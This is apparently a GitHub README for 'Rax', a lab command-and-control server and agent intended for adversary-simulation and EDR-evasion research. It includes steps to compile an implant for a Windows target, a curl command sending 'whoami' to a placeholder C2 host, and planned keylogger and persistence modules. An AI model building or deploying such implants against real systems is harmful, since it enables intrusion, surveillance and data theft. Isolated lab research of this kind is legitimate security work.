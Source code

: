 <h1> Rax : C2 Server </h1>


A compact C2 (Command-and-Control) server and Agent deployment package for advanced cybersecurity research that can be done cost-effectively using open-source tools and virtualization, reviewing and implementing protocol design, encryption and evasion technique. Here’s a full step-by-step breakdown, tailored for realistic adversary simulation and EDR evasion research.

<h2> ⚙️ GOAL </h2>

Build a custom C2 framework that:
- Runs in a VM/lab setup
- Supports multiple agents (Windows/Linux)
- Has encrypted communication
- Offers modular payloads, execution, and exfiltration
- Avoids cloud or paid infrastructure

<br>


<h2> 🔨 1. Set Up the C2 Host (on Kali or Ubuntu VM) </h2>

```bash

sudo apt update && sudo apt install python3 python3-pip git
pip3 install flask flask-socketio cryptography

mkdir ~/RaxC2
cd ~/RaxC2

```

<br>


<h2> 🧠 2. Design Architecture </h2>

```perl

RaxC2/
├── server.py       # Flask + SocketIO
├── agent.py        # Implants/agents to run on targets
├── modules/        # Payload modules & features
├── logs/
└── keys/

```
```bash
mkdir -p logs keys modules
touch server.py agent.py
```

<br>


<h2> 🖥️ 3. Basic C2 Server Template (server.py) </h2>

Use the server.py file with the repo.

<br>


<h2> 🧬 4. Sample Agent Implant (agent.py for Windows/Linux) </h2>

Use the agent.py file with the repo.

<br>

<h2> 🔐 5. Generate SSL Certs </h2>

```bash
openssl req -x509 -newkey rsa:2048 -keyout key.pem -out cert.pem -days 365 -nodes
```

<br>


<h2> 🧪 6. Testing on Target </h2>

- Deploy agent.exe (compiled) on Windows VM.
```bash
pip install pyinstaller
pyinstaller --onefile agent.py

⚠️ Transfer the compiled agent.exe to the Windows target machine and execute it.
```
- Run C2 (python3 server.py) and issue commands.
```bash
python3 server.py
```  
- Exfiltrated data appears in the server console or saved logs. 

<br>

<h2>🔹 How to Send Commands </h2>
Currentl stage: Hardcoded support only – listen for connections and watch outputs.

Advanced - feature development ⚠️ : Create an admin console that sends commands like:

```bash
curl -X POST https://<C2-IP>:443/send_command -d 'whoami'
```

<br>

<h2> 🔧 Extend Functionality </h2>

- modules/screenshot.py: take screenshot and send back   :  Feature to add ⚠️
- modules/keylogger.py: live keystroke capture           :  Feature to add ⚠️
- modules/persistence.py: registry or startup hijacks    :  Feature to add ⚠️ 

<br>


<h2> 🧰 VM Setup Tips </h2>

- Kali/Ubuntu (for C2)
- Windows 11 with Entra ID and EDR (for agent testing)
- Use NAT or Host-only Adapter for isolation
- Use Fakenet-NG or Wireshark for traffic monitoring
- Use snapshots before malware testing

